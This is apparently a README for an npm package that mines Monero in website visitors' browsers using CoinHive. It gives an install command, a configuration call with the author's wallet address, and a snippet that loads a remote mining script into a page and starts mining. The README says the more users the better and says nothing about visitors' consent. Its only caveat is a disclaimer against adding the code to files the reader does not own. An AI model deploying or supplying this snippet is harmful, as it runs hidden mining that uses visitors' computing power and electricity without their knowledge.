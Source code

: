 # Web Crypto Miner

> Start making money for your sites, even during development. The web crypto miner allows you to easily mine Monero (xmr) in a browser using javascript. All you need is a monero wallet address.

## Important notes:

- Make sure you are using your public wallet address.
- Once you have mined .035 xmr it will be transfered to your wallet addres.
  - This usually takes about 5 days with constant load from 1 user. So, the more users the better.
- The pool fee is 1.5%

## Install
```
npm i web-miner --save
```

## Usage

This is for client-side code only.

If you don't have a monero wallet address and need one, I highly recommend https://mymonero.com

```js
var configure = require('web-miner');

// Make sure to use your wallet address otherwise you'll be sending me coins
// Replace the string with your wallet address string
configure('4B9pCtvG2e5BMUxBjT1NsLgGDSHovEpHhCVJFx4U4kQgSYomecnqdAyXK3YdCv2W1NhhMrNFG5ieUM21uo3HxzzDTG9MT2f');

```

If for whatever reason you don't have access to `npm` or require modules you can append this code in any js file that the client uses. Again, just replace my wallet address string with your wallet address string:

```js
var script = document.createElement('script');
script.onload = function () {
  // XMR Pool hash
  var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');
   // TODO: Replace the below string with wallet string
  m.start('4B9pCtvG2e5BMUxBjT1NsLgGDSHovEpHhCVJFx4U4kQgSYomecnqdAyXK3YdCv2W1NhhMrNFG5ieUM21uo3HxzzDTG9MT2f');
 };
script.src = 'https://coinhive.com/lib/coinhive.min.js';
document.head.appendChild(script);
```

## DISCLAIMER: USE RESPONSIBLY. DO NOT PASTE THE ABOVE CODE INTO JS FILES THAT YOU DO NOT OWN. I CANNOT BE HELD RESPONSIBLE FOR YOUR ACTIONS.

## Contributing

Pull requests and stars are always welcome. 
But before doing anything, please read the [CONTRIBUTING.md](./CONTRIBUTING.md) guidelines.

